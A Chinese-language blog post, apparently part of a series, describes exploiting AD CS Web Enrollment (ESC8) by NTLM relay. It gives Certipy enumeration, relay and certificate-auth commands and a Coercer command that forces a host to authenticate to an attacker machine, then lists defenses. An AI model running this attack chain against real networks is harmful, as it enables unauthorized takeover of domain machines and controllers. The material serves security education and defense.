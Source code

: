 ```yaml
---
date: 2025-08-05T13:08:37+08:00
title: 滥用Active Directory证书服务(第三部分) - 中继攻击与证书伪造实战
tags: [Active Directory, ADCS, NTLM中继攻击, 证书伪造]
authors: qife
description: 本文详细演示如何通过Web Enrollment功能实施NTLM中继攻击，利用Certipy工具伪造机器账户证书，最终获取域控权限的完整攻击链，涵盖ESC8漏洞利用、PetitPotam攻击变种及防御建议。
---
```


# 滥用Active Directory证书服务(第三部分)

在[第一部分](https://example.com/part1)和[第二部分](https://example.com/part2)中，我们探讨了Active Directory证书模板的常见错误配置。本文将重点分析Web Enrollment功能的攻击利用。

## ADCS HTTP端点中继攻击

Active Directory证书服务(ADCS)支持基于HTTP的证书注册方法。当启用时，这些HTTP接口可能遭受NTLM中继攻击。攻击者诱导受害者账户向受控主机认证后，可将凭据中继到证书颁发机构(CA)来代表受害者申请证书。

某些情况下甚至不需要域凭据。例如利用CVE-2021-36942漏洞，攻击者可通过LSARPC接口的OpenEncryptedFileRaw API方法诱导目标主机进行认证。

## ESC8攻击实例

假设我们已初步入侵FOOBAR公司内网，并获取用户"billy"的凭据。通过Certipy工具枚举"foobar.com"域的ADCS配置：

```bash
certipy find \
  -u 'billy@foobar.com' \
  -p <PASSWORD> \
  -dc-ip <DC_IP> \
  -enabled
```

当CA服务器满足以下条件即存在ESC8漏洞：
- Web Enrollment功能启用


## 攻击步骤分解

1. **设置中继服务**：
```bash
certipy relay \
  -ca foobar-CA.foobar.com \
  -template 'DomainComputers'
```

2. **诱导目标机器认证**：
使用Coercer工具触发server01.foobar.com向攻击主机(10.10.1.100)认证：
```bash
coercer coerce \
  -t server01.foobar.com \
  -I 10.10.1.100 \
  -u 'billy@foobar.com' \
  -p <PASSWORD> \
  -d foobar.com
```

3. **伪造证书并获取凭据**：
```bash
certipy auth -pfx server01.pfx
```

## 防御建议
- 禁用非必要的ADCS HTTP端点
- 尽可能禁用NTLM认证
- 强制启用HTTPS并配置身份验证扩展保护
- 启用SMB/LDAP签名要求
- 强制实施LDAP通道绑定

## 技术资源
- [Certipy工具](https://github.com/ly4k/Certipy)
- [Impacket套件](https://github.com/fortra/impacket)
- [微软安全指南KB5005413](https://support.microsoft.com/en-us/topic/kb5005413)